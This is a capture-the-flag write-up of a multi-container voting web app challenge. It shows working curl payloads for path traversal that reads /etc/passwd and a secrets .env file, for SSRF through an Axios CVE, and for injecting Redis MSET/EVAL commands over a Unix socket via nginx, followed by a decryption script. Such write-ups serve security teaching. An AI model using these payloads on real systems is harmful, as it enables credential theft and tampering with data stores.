

This was, by far, my favorite challenge during the 2025 Australia Cybersecurity Games run by CySea.

This was a Redis, NodeJS, Python, Nginx & PHP tech stack application. The premise is this is a voting application that needs to be attacked to extract information about a user 'wbc'.

It is HIGHLY recommended that you read the source code alongside this writeup.

# Source Code Analysis
We are provided a source code zip, this webapp is utilising Docker with several containers to make a neat little tech-stack:

The application has a few folders:
- nginx
- node-app
- php-backend
- python-backend
- redis

## Docker

There is a `docker-compose.yml` that is fairly simple to understand, it just contains the various services. For now, we will go through each of the services and as we go through I'll mention relevant details from the file.

This is a mermaid diagram of the stack to come, just use it as reference as you read.


## Redis

Redis (if not familiar) is fairly well-defined by Wikipedia:
> Redis is an in-memory key–value database, used as a distributed cache and message broker, with optional durability.

For the purpose of the application, it stores the images for the candidates on the application. The container is initialised with the following command in the `docker-compose.yml`: `bash -c "chmod +x /init.sh /restore.sh && /init.sh"`.

So, what is `init.sh` and `restore.sh`?

`init.sh` is being used to create a Redis unix socket and set up the appropriate environment variables for a crontab to reset the Redis keys periodically with `restore.sh`:
```bash
#!/bin/bash

# Create socket dir with permissive access
mkdir -p /redis
chmod 777 /redis

# Start Redis in the background
redis-server --unixsocket /redis/redis.sock --unixsocketperm 777 --port 0 &

# Wait briefly to ensure Redis is ready
sleep 1

/restore.sh

echo "SHELL=/bin/bash" > /etc/cron.d/redis-restore
echo "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" >> /etc/cron.d/redis-restore
echo "* * * * * /restore.sh >> /var/log/cron.log 2>&1" >> /etc/cron.d/redis-restore

chmod 0644 /etc/cron.d/redis-restore
touch /var/log/cron.log
crontab /etc/cron.d/redis-restore

cron
tail -f /var/log/cron.log &

# Wait on Redis process
wait
```

Important note, the Redis socket initialised is shared to every single container.

The `restore.sh` is used to initialise the values in the Redis store:
```bash
#!/bin/bash

# Clear all existing data
redis-cli -s /redis/redis.sock FLUSHALL

# Restore seed data
redis-cli -s /redis/redis.sock HSET wbc name wbc
redis-cli -s /redis/redis.sock HSET wbc certifier REDACTED
redis-cli -s /redis/redis.sock HSET wbc voted_for dGhpc2hhc2JlZW5yZWRhY3RlZGZvcnlvdSxnb2ZpbmR0aGVyZWFsdmFsdWVub3ch

# Restore images
redis-cli -s /redis/redis.sock SET img:1 "$(base64 /1.jpg)"
redis-cli -s /redis/redis.sock SET img:2 "$(base64 /2.jpg)"
redis-cli -s /redis/redis.sock SET img:3 "$(base64 /3.jpg)"
redis-cli -s /redis/redis.sock SET img:4 "$(base64 /4.jpg)"
redis-cli -s /redis/redis.sock SET img:5 "$(base64 /5.jpg)"
```

Here we can see that the value that we need from the user 'wbc' is 'voted_for', but we will look at that once we look at the Python application source code.

The images are stored as-well in base64, which we will use later.

Fairly easy start.

## Nginx

Nginx is being used in the application to route the web traffic to the appropriate web-server containers in the backend. We have 2 main config files, `default.conf` and `img.conf`.

`default.conf` is the following:
```conf
server {
    listen 80;
    server_name backend.wbc;

    resolver 127.0.0.11 valid=10s;

    location ~ /(.*)/(.*) {
        proxy_pass http://$1.backend.wbc/$2;
    }

    location / {
        return 404;
    }
}
```

Here what’s happening -- when we send a request to the web server with the URL `https://HOST/variable1/variable2`, the nginx will use proxy_pass to route the request to `https://variable1.backend.wbc/variable2`.

We never communicate directly with Nginx, the public-facing container is the NodeJS application (which we will see later) so we cannot directly utilise this. Keep in mind that this regex of `/(.*)/(.*)` is inherently quite dangerous as it's a match-all (due to `.*`) so this would include characters like `/` and `:`.

Furthermore, what is `proxy_pass`?

I used [this dev.to article](https://dev.to/danielkun/nginx-everything-about-proxypass-2ona) to learn about it, to my understanding anything sent to the route specified in the Nginx config is directly copied to the `proxy_pass` endpoint (including URL parameters). If there are regex utilised the matches can be referenced with `$n` for the nth match. 

There is some peculiar behaviour with `proxy_pass`, but that will come later :)))))

Now, onto `img.conf`:
```conf
server {
    listen 80;
    server_name img.backend.wbc;

    location / {
        content_by_lua_block {
            local redis = require "resty.redis"
            local r = redis:new()
            r:set_timeout(1000)

            local ok, err = r:connect("unix:/redis/redis.sock")
            if not ok then
                ngx.status = 502
                ngx.say("Redis connection failed: ", err)
                return
            end

            local id = ngx.var.uri:sub(2)

            if not id:match("^%d+$") then
                ngx.status = 404
                ngx.say("Image not found")
                return
            end

            local res, err = r:get("img:" .. id)
            if not res or res == ngx.null then
                ngx.status = 404
                ngx.say("Image not found")
                return
            end

            ngx.header.content_type = "image/jpg"
            ngx.print(res)
        }
    }
}
```

All this is for is to utilise the Redis socket to get an image based on the numerical ID, so if I access `https://img.backend.wbc/1` it calls Redis to GET (not HGET) `img:1` then return the content (which is the base64 image).

It has a regex for checking only numerical IDs in the Redis call using `^%d+$`.

## PHP

The PHP backend is pretty much entirely useless for the challenge, but it does serve as a good testing endpoint. The PHP application is hosted at `v1.backend.wbc`, and has 1 endpoint (and a tiny src), so here it is:
```php
<?php

header('Content-Type: application/json');

$dbFile = __DIR__ . '/database.sqlite';
$db = new SQLite3($dbFile);

$method = $_SERVER['REQUEST_METHOD'];
$uri = $_SERVER['REQUEST_URI'];

if ($method === 'GET' && $uri === '/candidates') {
    $results = $db->query('SELECT id, name, slogan, party FROM candidates');
    $candidates = [];
    while ($row = $results->fetchArray(SQLITE3_ASSOC)) {
        $candidates[] = $row;
    }
    echo json_encode(['candidates' => $candidates]);
    exit;
}

http_response_code(404);
echo json_encode(['error' => 'Not Found']);
```

This is just a request to pull the candidate details from a SQLite database. `/candidates` returns the candidates, and as this is hosted at `v1.backend.wbc` we can access it (if we have access to the backend directly) with `https://v1.backend.wbc/candidates`. Cool!

## Python

This is one of the 2 important applications, so this will take some more time to get through. The application is hosted internally at `v2.backend.wbc`.

The application has 2 endpoints (both POST requests), `/vote` and `/certificate`.

### /vote

```python
@app.route('/vote', methods=['POST'])
def vote():
    try:
        voter_name = request.form.get('voter_name').strip()
        candidate_name = request.form.get('candidate_name').strip()

        if not voter_name or not candidate_name:
            return jsonify({'error': 'Missing voter_name or candidate_name'}), 400

        base_key = os.getenv('ENCRYPTION_KEY')
        if not base_key or len(base_key) != 24:
            return jsonify({'error': 'Invalid encryption key'}), 500
        
        r = redis.Redis(unix_socket_path='/redis/redis.sock')
        if r.hexists(voter_name, 'voted_for'):
            return jsonify({'error': 'You have already voted.'}), 403

        certifier = generate_random_string(8)
        key = (certifier + base_key).encode()
        encrypted_vote = encrypt_value(key, candidate_name)

        r.hset(voter_name, mapping={
            'name': voter_name,
            'certifier': certifier,
            'voted_for': encrypted_vote
        })

        return jsonify({'status': 'Vote submitted successfully!'})

    except Exception as e:
        return jsonify({'error': str(e)}), 500
```

TODO: GitHub Link to the function

Let's walk through `/vote` step by step:

There are 2 input parameters, `voter_name` and `candidate_name`. They are both required (otherwise we get a 400 error).
```python
voter_name = request.form.get('voter_name').strip()
candidate_name = request.form.get('candidate_name').strip()

if not voter_name or not candidate_name:
    return jsonify({'error': 'Missing voter_name or candidate_name'}), 400
```

We then get an environment variable `ENCRYPTION_KEY` and the key must exist and be 24 characters long. If this fails we get a 500.

```python
base_key = os.getenv('ENCRYPTION_KEY')
if not base_key or len(base_key) != 24:
    return jsonify({'error': 'Invalid encryption key'}), 500
```

We then check in Redis if there is a hashed store that exists of `wbc`'s `voted_for` value with `hexists` via the Redis socket. If this fails we get a 403 which declares we already voted.

```python
r = redis.Redis(unix_socket_path='/redis/redis.sock')
if r.hexists(voter_name, 'voted_for'):
    return jsonify({'error': 'You have already voted.'}), 403
```

We then create a `certifier` with a `generate_random_string()` function and create a `key` with the `ENCRYPTION_KEY` and `certifier`.

```python
certifier = generate_random_string(8)
key = (certifier + base_key).encode()
```

The `generate_random_string()` function just creates a `A-Za-z0-9` random string with `secrets`:

```python
def generate_random_string(length=8):
    return ''.join(secrets.choice('ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789') for _ in range(length))
```

We then encrypt this `key` with a `encrypt_value()` function.

```python
encrypted_vote = encrypt_value(key, candidate_name)
```

The `encrypt_value()` function uses PKCS7 padding with AES-CBC to encrypt the data then base64 encodes the iv and the cipher text output.

```python
def encrypt_value(key: bytes, value: str) -> str:
    backend = default_backend()
    iv = secrets.token_bytes(16)
    padder = padding.PKCS7(128).padder()
    padded_data = padder.update(value.encode()) + padder.finalize()
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=backend)
    encryptor = cipher.encryptor()
    ct = encryptor.update(padded_data) + encryptor.finalize()
    return base64.b64encode(iv + ct).decode()
```

Afterwards, we then use `hset` to hashed set a value to the store with our encrypted vote, name and certifier. Which sets our vote!

```python
r.hset(voter_name, mapping={
    'name': voter_name,
    'certifier': certifier,
    'voted_for': encrypted_vote
})

return jsonify({'status': 'Vote submitted successfully!'})
```

Overall, this function generates a key using a random string and hardcoded key to encrypt a vote value (the candidate name you chose) and then HSET's it to the Redis store.

To get the flag (as we saw on the Redis `restore.sh`) the `wbc` user has the encrypted vote preset on their `voted_for` value in the store, so we need 3 pieces of information for the flag:
- [ ] `wbc`'s certifier
- [ ] The `ENCRYPTION_KEY` value
- [ ] `wbc`'s encrypted `voted_for` value (containing our flag!)

Ok, let's look at `/certificate`.


### /certificate

There is only 1 input for this function, `name`:
```python
name = request.form.get('name').strip()
if not name:
    return jsonify({'error': 'Missing name'}), 400
```

The Redis socket is then utilised to get the certifier for the provided name and determine if the user has voted before.

```python
r = redis.Redis(unix_socket_path='/redis/redis.sock')
certifier = r.hget(name, 'certifier')
certifier_decoded = certifier.decode() if certifier else 'You have not voted!'
```

We then create an `out_path` which utilises our user-supplied `name` in a file path, **interesting**.

The `out_path`, `name` and the `decoded_certifier` are used in a `generate_certificate()` function.

```python
try:
    generate_certificate(out_path, name, certifier_decoded)
except Exception as e:
    print(f'Could not save file, voter {name} has likely already generated confirmation certificate!')
```

The `generate_certificate()` function is mostly stylisation, but it is a PDF that contains the user supplied name and certifier of that user.

The user-supplied `out_path` is then used in Flask `send_file` which is the following:
> Send the contents of a file to the client.

Interesting, especially with user control!

A few flag related findings here:
- We can get the certifier with a username here, there is no `hexists` check we can leak the certificate of `wbc` and get the certifier, that's one of 3 requirements!
- We also potentially have an LFI vulnerability here.

#### certifier and Local File Read

If you noticed, great job, here is a cookie 🍪.

The `out_path` utilises the `name` parameter in the file path, and it is then passed to Flask's `send_file()`. For now, let's just start with using it as intended and getting the certifier.

I send the following request:
```bash
$ curl -X POST -d 'name=wbc' 'http://3.105.27.130:8000/api/v2/certificate' > wbc.pdf
$ open wbc.pdf
```

And, low and behold:


Nice, there is the certifier for 'wbc', let's note it down: `Ak4gHIGV`.

- [x] `wbc`'s certifier
- [ ] The `ENCRYPTION_KEY` value
- [ ] `wbc`'s encrypted `voted_for` value (containing our flag!)

Now, let's try the LFR vulnerability, as we are in `./exports/` and the container is located within `/app`. Let's try 2 traversals:
```bash
$ curl -X POST -d 'name=../../etc/passwd' 'http://3.105.27.130:8000/api/v2/certificate'                                                                                                                        130 ↵
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```

Looking good! Now could we get the `ENCRYPTION_KEY` with `/proc`?

```bash
$ curl -X POST -d 'name=../../proc/self/environ' 'http://3.105.27.130:8000/api/v2/certificate'

```

Nope, blank...

When the container is initialised within the `Dockerfile`, the following line is of interest:
```docker
RUN echo "ENCRYPTION_KEY=REDACTEDREDACTEDREDACTED" > /app/.env
```

So, could we access `/app/.env`?

```bash
$ curl -X POST -d 'name=../.env' 'http://3.105.27.130:8000/api/v2/certificate'
ENCRYPTION_KEY=0cccaf41450b4c0ca95f1a9c
```

Yes we can! That's 2 of 3 requirements.

- [x] `wbc`'s certifier
- [x] The `ENCRYPTION_KEY` value
- [ ] `wbc`'s encrypted `voted_for` value (containing our flag!)

Now, let's move along to NodeJS

## NodeJS

The NodeJS app is the frontend app we access and interact with, and by far the most deceptively simple.

The main route is `/api/*` so we will only cover that, the remaining code is mostly irrelevant.

### /api/*

> Warning before we start, this function is very, very strange (deliberately) and took me several reads to try and explain properly.


Before any meat & potatoes, there is an `isAborted` check at the very start of the function.

```js
let isAborted = false;
res.onAborted(() => {
    isAborted = true;
});
```

The web-server is setting the requests with `uWebSockets.js` and see what this is for:
> Every HttpResponse MUST have an attached abort handler IF you do not respond to it immediately inside of the callback. Returning from an Http request handler without attaching (by calling onAborted) an abort handler is ill-use and will terminate. When this event emits, the response has been aborted and may not be used.

Requests could abort early, this seems to simply be for that, moving along.

We set-up 2 variables, `method` and `url`, we check if the `url` starts with `/api/` otherwise it drops the request:
```js
const method = req.getMethod();
const url = req.getUrl();
if(!url.startsWith('/api/')) {
    return res.writeStatus('400 Bad Request').end('Invalid request.');
}
```

We make a few more variables, `remainder`, `api` and `path`. `remainder` takes the `url` and slices the `/api/` from the start of the URL. `api` then checks the following:
- Take everything before the first `/` in `url`, store that in `remainder`
- If `remainder` is 'v1', 'v2' or 'img', set that as the `api`
- Otherwise, `api` is 'v2'.

We then set `path` which:
- Using the `indexOf` the first instance of `/` in the remainder, add 1 to it (accounting for the off-by-one error with indexes/character counts).
- Slice the remainder at that point, getting everything after the first slash.

We then create a `client` with Axios and setup a `body`:
```js
const client = axios.create({baseURL: `http://backend.wbc/${api}/`, allowAbsoluteUrls: false});

let body = []
```

We then have the following giant function:
```js
res.onData((chunk, isLast) => {
    body.push(Buffer.from(chunk))
    if(isLast) {
        const fullBody = Buffer.concat(body).toString();
        client.request(path, {method: method, data: fullBody}).then(response => {
            if (isAborted) return;
            res.cork(() => {
                res.writeStatus(`${response.status} OK`);
                res.end(typeof response.data === 'string' ? response.data : JSON.stringify(response.data));
            });
        }).catch(error => {
            if (isAborted) return;
            res.cork(() => {
                res.writeStatus('502 Bad Gateway');
                res.end(typeof error.message === 'string' ? error.message : JSON.stringify(error.message));
            });
        });
    }
})
```

This function is... horrific?

What we are doing is semi-complicated (kind of). Firstly, what is `onData`?
> Handler for reading data from POST and such requests. You MUST copy the data of chunk if isLast is not true. We Neuter ArrayBuffers on return, making it zero length.

I believe, this is to retrieve chunked data from a body data from the request, and then being pushing this data in chunks to the `body` array.

We then check `isLast` if we are on the last chunk, if so, we can define `fullBody` with the concatenated buffer from the `body` array. We then use the Axios `client` to send a request with our defined `method` and `path`, then the `fullBody` is attached.

Then, we await a response, if we respond (and the request wasn't aborted), respond with the response data, otherwise respond 502 and an error.

Okay?? for why???

# Understanding the peculiar stack

Here is an example mermaid diagram of interacting with the stack:


As NodeJS is our frontend, it filters the requests that go to Nginx via the path parsing. This is then sent to Nginx, where it is sent via `proxy_pass` to the backend, which is then parsed accordingly.

So, how do we get the `voted_for`?

## SSRF

A key detail lies in the `package.json` for the NodeJS app:
```json
"dependencies": {
    "axios": "1.8.1",
    "uWebSockets.js": "github:uNetworking/uWebSockets.js#v20.52.0"
}
```

Axios is outdated, and it turns out there is a CVE! [CVE-2025-27152](https://nvd.nist.gov/vuln/detail/CVE-2025-27152), with a [PoC](https://github.com/axios/axios/security/advisories/GHSA-jr5f-v2jv-69x6)!

This PoC looks very, *very* similar to how our Axios `client` is setup:

```js
import axios from "axios";

const internalAPIClient = axios.create({
  baseURL: "http://example.test/api/v1/users/",
  headers: {
    "X-API-KEY": "1234567890",
  },
});

// const userId = "123";
const userId = "http://attacker.test/";

await internalAPIClient.get(userId); // SSRF
```

Considering our requests are done with this format, can we try access a backend API directly?

```bash
$ curl 'http://3.105.27.130:8000/api/v2/http://v1.backend.wbc/candidates'
{"candidates":[{"id":1,"name":"Alyssa Chen","slogan":"Pragmatism, digital governance, economic modernization, unity","party":"The Centrist Union"},{"id":2,"name":"Comrade Elira Voss","slogan":"Class struggle, public ownership, radical equality, climate justice","party":"The People's Solidarity Front"},{"id":3,"name":"Governor Henrik Stahl","slogan":"Traditional values, law and order, economic liberalism, national pride","party":"The National Renewal Party"},{"id":4,"name":"Dr. Marcus Delane","slogan":"Social equity, sustainability, inclusive growth, democratic reform","party":"The Progressive Alliance"},{"id":5,"name":"Commander Rhea Kael","slogan":"Nationalism, cultural preservation, sovereignty, militarism","party":"The Freedonian Heritage League"}]}
```

Awesome! SSRF is working, but how does this help?

With this, we have bypassed the NodeJS frontend requiring a filtered match for this Nginx config:
```conf
location ~ /(.*)/(.*) {
    proxy_pass http://$1.backend.wbc/$2;
}
```

We are now directly communicating with Nginx without any NodeJS parsing. So, if we do `http://backend.wbc/v1/candidates` the request should work the same.

```bash
$ curl 'http://3.105.27.130:8000/api/v2/http://backend.wbc/v1/candidates'
{"candidates":[{"id":1,"name":"Alyssa Chen","slogan":"Pragmatism, digital governance, economic modernization, unity","party":"The Centrist Union"},{"id":2,"name":"Comrade Elira Voss","slogan":"Class struggle, public ownership, radical equality, climate justice","party":"The People's Solidarity Front"},{"id":3,"name":"Governor Henrik Stahl","slogan":"Traditional values, law and order, economic liberalism, national pride","party":"The National Renewal Party"},{"id":4,"name":"Dr. Marcus Delane","slogan":"Social equity, sustainability, inclusive growth, democratic reform","party":"The Progressive Alliance"},{"id":5,"name":"Commander Rhea Kael","slogan":"Nationalism, cultural preservation, sovereignty, militarism","party":"The Freedonian Heritage League"}]}
```

Yup!

This is fairly OK to understand, `http://backend.wbc/v1/candidates` is the path `/v1/candidates`. The first match with regex is `v1` and the second is `candidates` so `http://v1.backend.wbc/candidates`.

But how does this help with Redis?

## The Breakthrough

[This article](https://labs.detectify.com/2021/02/18/middleware-middleware-everywhere-and-lots-of-misconfigurations-to-fix/) was the final piece of the puzzle. 

I'd highly recommend just reading this article, I cannot explain it better, but I can show my implementation of each request one by one.

We utilise a Unix socket (after the defined HTTP protocol) to communicate with the Redis socket, which we can then start sending commands to Redis directly from inside our HTTP request.

I tested this locally by starting with attempting to return an error accessing the Redis socket at all.
```bash
$ curl 'http://3.105.27.130:8000/api/v2/http://backend.wbc/unix:%2fredis%2fredis.sock:%22%22/'
Parse Error: Expected HTTP/
```

Which is a good error, things are connecting!

After some time testing locally, I got something working with `MSET`!

Firstly, let's try access `img:100` normally:
```bash
$ curl 'http://3.105.27.130:8000/api/img/100'
Request failed with status code 404
```

Doesn't exist, as expected.

Now, let's try to use `MSET` to set a value to `img:100`:
```bash
$ curl -X MSET 'http://3.105.27.130:8000/api/v1/http://backend.wbc/unix:%2fredis%2fredis.sock:img%3A100%20%22true%22%20/test'
Request failed with status code 502
```

To break this down (simply (again go read the article)).
- `MSET` is being used as a command set several key value pairs, which works with all the extra junk data in the HTTP line.
- As the unix socket is attached, our request is sent like this to Redis (approx.):
```
MSET img:100 "true" .backend.wbc/test
HTTP/1.0
Host: localhost
Connection: close
```

These further lines don't matter, we can now check the key.

```bash
$ curl 'http://3.105.27.130:8000/api/img/100'
true
```

We have now modified the Redis store! Alright, so how do we steal the HSET key value?

### Redis is weird

To acknowledge the elephant in the room, what is HSET vs SET. In essence (from my poor Redis understanding), it is just another way of storing information inside Redis (hashed store vs store) and general 'GET' cannot access hashed store values.

This is why earlier in the codebase we can't just use existing calls like `r.get`.

## EVALing to victory

Further down in the article, `EVAL` is used to use arbitrary Redis commands, to start with I try to set a value in the store using eval, and this payload works!

Firstly, starting with `img:999` GET:
```bash
$ curl 'http://3.105.27.130:8000/api/img/999'
Request failed with status code 404
```

Then, the EVAL:
```bash
$ curl -X EVAL "http://3.105.27.130:8000/api/v1/http://backend.wbc/unix:%2fredis%2fredis.sock:%22return%20redis%2ecall('set','img%3A999',1)%22%200%20/test
Request failed with status code 502
```

This breaks down to:
```
EVAL "return redis.call('set','img:999',1)" 0 .backend.wbc/test HTTP/1.0
Host: localhost
Connection: close
```
The ` 0 ` (`%200%20`) at the end is to terminate all further things after the EVAL as it determines the number of arguments after the script.

Then, refetching the `img:999`:
```bash
$ curl 'http://3.105.27.130:8000/api/img/999'
1
```

### The Final Payload

I spent a while pivoting, I tried to utilise the blog posts exfiltration with `table.concat()`, but I think due to Nginx and SSRF and weird parsing it doesn't work. So the final solve was a much simpler approach:

```bash
$ curl -X EVAL "http://3.105.27.130:8000/api/v1/http://backend.wbc/unix:%2fredis%2fredis.sock:'return%20(redis.call(\"set\",\"img:1337\",redis.call(\"hget\",\"wbc\",\"voted_for\"))\"\")'%200%20/test"
Request failed with status code 502
```

This payload looks complicated but is not (I promise).

The socket is the same as before, and the EVAL too.

We are sending the following command to Redis:

`return (redis.call("set", "img:1337", redis.call("hget", "wbc" "voted_for)))`

We are essentially grabbing the `voted_for` value and setting it to a general store instead of hashed store (my terminology may be wrong here).

So the final command (sent to Redis) is like this:

```redis
EVAL "return (redis.call("set", "img:1337", redis.call("hget", "wbc" "voted_for)))" 0 .backend.wbc/test HTTP/1.0
Host: localhost
Connection: close
```

Now, we can retrieve `img:1337` and get the encrypted vote for 'wbc':
```bash
$ curl 'http://3.105.27.130:8000/api/img/1337'
nV89mdFKlANlLKX0h4nbBcXqvobH8J75oQJQW93DZl4a1kSYlxZTZBP+iYB+yAM7
```

YAY!

- [x] `wbc`'s certifier
- [x] The `ENCRYPTION_KEY` value
- [x] `wbc`'s encrypted `voted_for` value (containing our flag!)

# Decrypting for profit

This was fairly easy, just replicating the Python script's encryption method but to decrypt instead:

```python
import base64
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend
from cryptography.hazmat.primitives import padding

def decrypt_value(key: bytes, encrypted_data: str) -> str:
    backend = default_backend()

    # Decode base64
    encrypted_bytes = base64.b64decode(encrypted_data)

    # Extract IV (first 16 bytes) and ciphertext
    iv = encrypted_bytes[:16]
    ct = encrypted_bytes[16:]

    # Decrypt
    cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=backend)
    decryptor = cipher.decryptor()
    padded_data = decryptor.update(ct) + decryptor.finalize()

    # Remove padding
    unpadder = padding.PKCS7(128).unpadder()
    data = unpadder.update(padded_data) + unpadder.finalize()

    return data.decode()

# Values from .env and Redis
certifier = "Ak4gHIGV"
base_key = "0cccaf41450b4c0ca95f1a9c"
encrypted_vote = "nV89mdFKlANlLKX0h4nbBcXqvobH8J75oQJQW93DZl4a1kSYlxZTZBP+iYB+yAM7"

# Create decryption key
key = (certifier + base_key).encode()

# Decrypt
decrypted = decrypt_value(key, encrypted_vote)
print(f"Decrypted value: {decrypted}")
```

Now, for the win:
```bash
$ python3 decrypt.py
Decrypted value: secedu{s0ck3ts_r_kInD@_kewl}
```

Here is a full exploit chain diagram:


Flag: `secedu{s0ck3ts_r_kInD@_kewl}`

This challenge was awesome, thank you to the author.
